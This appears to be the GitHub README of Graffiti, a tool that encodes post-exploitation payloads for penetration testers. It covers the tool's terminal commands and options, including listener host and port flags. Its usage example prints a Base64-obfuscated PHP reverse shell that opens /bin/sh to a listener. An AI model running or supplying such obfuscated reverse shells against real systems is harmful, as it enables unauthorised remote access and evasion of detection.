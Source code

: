 <p align="center"><img width="500" alt="graffitibanner" src="https://user-images.githubusercontent.com/14183473/49157062-8a351500-f2e4-11e8-80cd-00acd809171e.png"></p>

###### _***NOTE***: Never upload payloads to online checkers_

Graffiti is a tool designed to encode short scripting commands that will help penetration testers during the post exploitation phase. Graffiti accepts the following languages:
 
 - Python
 - Perl
 - Batch
 - Powershell
 - PHP
 - Bash

Even though your language may not be on this list, graffiti will still accept your data and store it in a database for later use.

# Features

Graffiti also comes complete with a database that will cache each encoded payload into itself in order to allow end users to view already created payloads for future use. The payloads can be encoded using the following techniques:

 - Xor
 - Base64
 - Hex
 - Raw

Some features of Graffiti include:

 - Terminal drop in access, with the ability to run external commands
 - Ability to create your own payload JSON files
 - Ability to view cached payloads inside of the database
 - Ability to run the database in memory for quick deletion
 - Terminal history and saving of terminal history
 - Auto tab completion inside of terminal
 - Ability to securely wipe the history files and database file
 - Multiple encoding techniques as mentioned above

# Usage

Graffiti comes with a builtin terminal, when you pass no flags to the program it will drop into the terminal. The terminal has history, the ability to run external commands, and it's own internal commands. In order to get help, you jsut have to type `help` or `?`:

```bash

  ________              _____  _____.__  __  .__ 
 /  _____/___________ _/ ____\/ ____\__|/  |_|__|
/   \  __\_  __ \__  \\   __\\   __\|  \   __\  |
\    \_\  \  | \// __ \|  |   |  |  |  ||  | |  |
 \______  /__|  (____  /__|   |__|  |__||__| |__|
        \/           \/           
 v(0.1)               

no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti# ?

 Command                                  Description
---------                                --------------
 help/?                                  Show this help
 external                                List available external commands
 cached                                  Display all payloads that are already in the database
 list/show                               List all available payloads
 search <phrase>                         Search for a specific payload
 use <payload> <coder>                   Use this payload and encode it using a specified coder
 info <payload>                          Get information on a specified payload
 check                                   Check for updates
 history                                 Display command history
 exit/quit                               Exit the terminal and running session
 encode <script-type> <coder>            Encode a provided payload

root@graffiti:~/graffiti# help

 Command                                  Description
---------                                --------------
 help/?                                  Show this help
 external                                List available external commands
 cached                                  Display all payloads that are already in the database
 list/show                               List all available payloads
 search <phrase>                         Search for a specific payload
 use <payload> <coder>                   Use this payload and encode it using a specified coder
 info <payload>                          Get information on a specified payload
 check                                   Check for updates
 history                                 Display command history
 exit/quit                               Exit the terminal and running session
 encode <script-type> <coder>            Encode a provided payload
```

Graffiti also comes with command line arguments for when you need a payload encoded quickly:

```bash
usage: graffiti.py [-h] [-c CODEC] [-p PAYLOAD]
                   [--create PAYLOAD SCRIPT-TYPE PAYLOAD-TYPE DESCRIPTION OS]
                   [-l]
                   [-P [PAYLOAD [SCRIPT-TYPE,PAYLOAD-TYPE,DESCRIPTION ...]]]
                   [-lH LISTENING-ADDRESS] [-lP LISTENING-PORT] [-u URL] [-vC]
                   [-H] [-W] [--memory] [-mC COMMAND [COMMAND ...]]

optional arguments:
  -h, --help            show this help message and exit
  -c CODEC, --codec CODEC
                        specify an encoding technique (*default=None)
  -p PAYLOAD, --payload PAYLOAD
                        pass the path to a payload to use (*default=None)
  --create PAYLOAD SCRIPT-TYPE PAYLOAD-TYPE DESCRIPTION OS
                        create a payload file and store it inside of
                        ./etc/payloads (*default=None)
  -l, --list            list all available payloads by path (*default=False)
  -P [PAYLOAD [SCRIPT-TYPE,PAYLOAD-TYPE,DESCRIPTION ...]], --personal-payload [PAYLOAD [SCRIPT-TYPE,PAYLOAD-TYPE,DESCRIPTION ...]]
                        pass your own personal payload to use for the encoding
                        (*default=None)
  -lH LISTENING-ADDRESS, --lhost LISTENING-ADDRESS
                        pass a listening address to use for the payload (if
                        needed) (*default=None)
  -lP LISTENING-PORT, --lport LISTENING-PORT
                        pass a listening port to use for the payload (if
                        needed) (*default=None)
  -u URL, --url URL     pass a URL if needed by your payload (*default=None)
  -vC, --view-cached    view the cached data already present inside of the
                        database
  -H, --no-history      do not store the command history (*default=True)
  -W, --wipe            wipe the database and the history (*default=False)
  --memory              initialize the database into memory instead of a .db
                        file (*default=False)
  -mC COMMAND [COMMAND ...], --more-commands COMMAND [COMMAND ...]
                        pass more external commands, this will allow them to
                        be accessed inside of the terminal commands must be in
                        your PATH (*default=None)
```

Encoding a payload is simple as this:

```bash
root@graffiti:~/graffiti# python graffiti.py -c base64 -p /linux/php/socket_reverse.json -lH 127.0.0.1 -lP 9065
Encoded Payload:
--------------------------------------------------

php -r 'exec(base64_decode("JHNvY2s9ZnNvY2tvcGVuKCIxMjcuMC4wLjEiLDkwNjUpO2V4ZWMoIi9iaW4vc2ggLWkgPCYzID4mMyAyPiYzIik7"));'

--------------------------------------------------
```

# Installation

On any Linux, Mac, or Windows system, Graffiti should work out of the box without the need to install any external packages. If you would like to install Graffiti as an executable onto your system, all you have to do is the following:

```bash
./install.sh
```

This will install Graffiti into your system and allow you to run it from anywhere.

# Bugs and issues

If you happen to find a bug or an issue, please create an issue with details [here](https://github.com/Ekultek/Graffiti/issues) and thank you ahead of time!